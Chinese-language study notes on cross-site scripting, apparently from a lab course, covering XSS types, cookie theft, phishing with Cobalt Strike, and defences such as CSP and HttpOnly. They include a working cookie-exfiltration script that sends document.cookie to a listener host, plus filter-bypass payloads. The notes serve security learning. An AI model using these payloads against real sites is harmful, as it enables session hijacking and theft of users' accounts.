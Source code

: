 跨站脚本是指恶意攻击者往web页面中插入恶意代码，当用户浏览该页之时，嵌入的代码就会被执行，从而达到恶意攻击用户的目的

危害：钓鱼、网站挂马、身份盗用、盗取用户信息。垃圾信息发送、劫持用户web行为、xss蠕虫
本身对服务器没有直接危害，而是通过网站传播对用户危害
通常通过留言、电子邮件向用户发送含有恶意代码的url，当受害者在浏览器中打开该url的时候，恶意脚本会执行

xss的类型
1.反射型
2.存储型
3.DOM型

反射型xss：也叫做非持久型，攻击者将恶意脚本附加到url参数中，发送给受害者，服务端未经严格过滤而输出在用户浏览器中，导致浏览器执行代码数据。
原本网站中输入框提交之后
http://3ea5a92bf90f.target.yijinglab.com/source/index01.php?name=1&submit=%E6
%8F%90%E4%BA%A4
这个时候就发现了如果name处被恶意执行了，那么就会被攻击
钓鱼常用

流程：
1.攻击者把带有恶意脚本代码参数的url地址发送给用户
2.用户点击此链接
3.服务器端获取请求参数并且直接使用，服务器反射回结果页面






存储型：也叫做持久型，存储型可以保存到数据库，在其他用户访问到这条数据时，这个代码会在访问用户的浏览器端执行。
也就是说，如果我在网站上写了恶意脚本，那么这段脚本就会被网站保存下来，当下一个用户打开这个页面的时候网站就会执行这句话
一般出现在留言的地方或者有输入框的地方
一个办法就是尝试输入然后提交看看有没有执行
这里面主要就是js的代码，建议把前端的js重点看一下


实战利用
1.盗取cookie
前提条件：目标网站没有使用http-only；受害者可以访问到接收端；获取到cookie后用户没有退出登录
http-only是加在cookies上的一个标识，用于告诉浏览器不要向客户端脚本或其他暴露cookie。丹尼在cookie上设置httponly标识后，浏览器就会知道这是特殊的cookie，只能由服务器检索，所有来自客户端脚本的访问都会被禁止。
2.cookie的概念：是一种存储在计算机浏览器目录中的文本文件。当用户浏览某个站点并注册账户，就会生成一个cookie文件用于记录登录信息。目前，大多数网站都会应用cookie技术，这既能给用户提供一个好的网络环境，又能方便收集访客信息。
3.攻击方法
1）攻击者视角
首先在公网服务器启动一个用于接受cookie的web服务，既可以使用python也可以使用apache
python3 -m http.server --bind 0.0.0.0 2333 
<script>
window.open('http://10.178.116.49:2333/?q='+btoa(document.cookie))
</script>
btoa的作用是对获取的cookie进行base64编码

问题：如何判断网站的cookie是否有httponly限制？
可以抓包看看请求头cookie有没有在后面加上httponly字段
例如：security=impossible; PHPSESSID=d7k0dd7u5pkkhof1rv3q73hr84; security=impossible
这一个是dvwa持久型xss靶场的cookie头，这就没有显示httponly
//httpResp.addHeader("Set-Cookie", "JSESSIONID=" + sessionId
//	                            + "; Path=/admin;Secure; HttpOnly");

如果我已经获取到cookie，那我该如何利用？
首先重新打开一下网站，然后f12修改cookie，然后再去访问刚刚我发给用户的那个网站

所以这就要求了用户不能退出登录、并且我收集cookie的接收端必须布置在公网上

2）受害者视角


还有另外一种方法
利用现有的xss平台，xss平台是一个测试xss漏洞获取cookie的平台，xss可以做js能做的所有事情，八廓但不限于窃取cookie、后台删改文章、钓鱼、李勇xss漏洞进行传播、修改网页代码、网站重定向、获取用户信息等
攻击者视角：
首先准备一个xss平台用以接收cookie，这里用蓝莲花平台
伪造了一个真实存在的并且可以让用户信任的网站
因为如果我直接用python启动http服务的话，用户不一定会信任





网络钓鱼
钓鱼网站是指欺骗用户的虚假网站。钓鱼网站的页面与真实的页面一致，欺骗消费者或者窃取访问者的账号与密码。
钓鱼网站一般只有几个页面，和真实网站差别细微。钓鱼网站是互联网中最常碰见的一种诈骗方式，通常伪装成银行以及电子商务、窃取用户提交的银行账号、密码等私密信息的内容。
1）Flash钓鱼
伪造flash，比如伪造flash下载页面并且攻击者制造了一个类似的钓鱼软件
2）CS钓鱼
CS是一款团队作战渗透神器，是一种可以用来进行横向移动、数据窃取、鱼叉钓鱼。分为客户端和服务端。
首先需要开启服务端
chmod ./teamserver
./teamserver ip 密码
然后打开客户端
chmod +x ./CobaltStrike
./CobaltStrike
在打开客户端后输入服务端ip和连接密码即可使用
3）Beef神器



流量劫持
<script>window.location.href="http://www.baidu.com"</script>



xss防范
1.preg_replace()正则替换
语法：
mixed preg_replace( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count]]) 
这个代码是去用我指定格式去替换源代码
模式修饰符
i：忽略大小写
m：行首和行末就会匹配目标字符串中任意换行符之前或之后，另外，还分别匹配目标字符串的最开始和最末尾位置
s：模式中的点号元字符匹配所有字符，包含换行符。如果没有这个 修饰符，点号不匹配换行符
x：模式中的没有经过转义的或不在字符类中的空白数据字符总会被忽略，并且位于一个未转义的字符类外部的#字符和下一个换行符之间的字符也被忽略。
A：模式被强制为"锚定"模式，也就是说约束匹配使其仅从 目标字符串的开始位置搜索
D：模式中的元字符美元符号仅仅匹配目标字符串的末尾。如果这个修饰符 没有设置，当字符串以一个换行符结尾时， 美元符号还会匹配该换行符(但不会匹配之前的任何换行符)。 如果设置了修饰符m，这个修饰符被忽略
S：当一个模式需要多次使用的时候，为了得到匹配速度的提升，值得花费一些时间 对其进行一些额外的分析。如果设置了这个修饰符，这个额外的分析就会执行。
U：这个修饰符逆转了量词的"贪婪"模式。 使量词默认为非贪婪的，通过量词后紧跟? 的方式可以使其成为贪婪的。
X：这个修饰符打开了 PCRE 与 perl 不兼容的附件功能。模式中的任意反斜线后就 ingen 一个 没有特殊含义的字符都会导致一个错误，以此保留这些字符以保证向后兼容性。
J：内部选项设置(?J)修改本地的PCRE_DUPNAMES选项。允许子组重名， (译注：只能通过内部选项设置，外部的 /J 设置会产生错误。) 自 PHP 7.2.0 起，也能支持 J 修饰符。
u：模式和目标字符串都被认为是 UTF-8 的。 无效的目标字符串会导致 preg_* 函数什么都匹配不到； 无效的模式字符串会导致 E_WARNING 级别的错误。 5 字节和 6 字节的 UTF-8 字符序列以无效字符序列对待。


例如
<?php
$a = $_GET['a'];
echo preg_replace('/preg_replace/',$a,'This is Preg_replace');
?>
对于这个语法来说，是逐字匹配，就是从开头开始找，当能够找到完美符合指定目标字符串的时候就替换，不回头
注意这里的完美符合是指必须能够直接构成整体，这是不会一个一个区组单词

<scr<script>ipt>window.alert(123)</scri</script>pt>


2.其他标签绕过
有时候会使用preg_match语法来实现匹配，比如
if(preg_match('/script/i',$_GET["name"])){
	die("error");
}
<iframe>123</iframe>
<svg onload="alert(1)">
这些代码可以看看https://www.cnblogs.com/renhaoblog/p/12888130.html


3.url解码
这一般会先替换（转换成html实体），然后url解码
这种可以先url编码，这样程序就不会检测到有替换的字符串

4.过滤引号，过于大于号

5.CSP策略
CSP是内容安全策略
本质上：建立白名单，规定了浏览器只能执行特定来源的代码；就算发生xss，也不会加载来源不明的第三方脚本

6.http-only限制



如何判断xss？
输入框
评论
富文本编辑器
我输入的内容被完全显示，才能是没有xss

反射型虽然有输入框但一般都是在url里？a=这样的形式提交参数，所以要找到这个参数是什么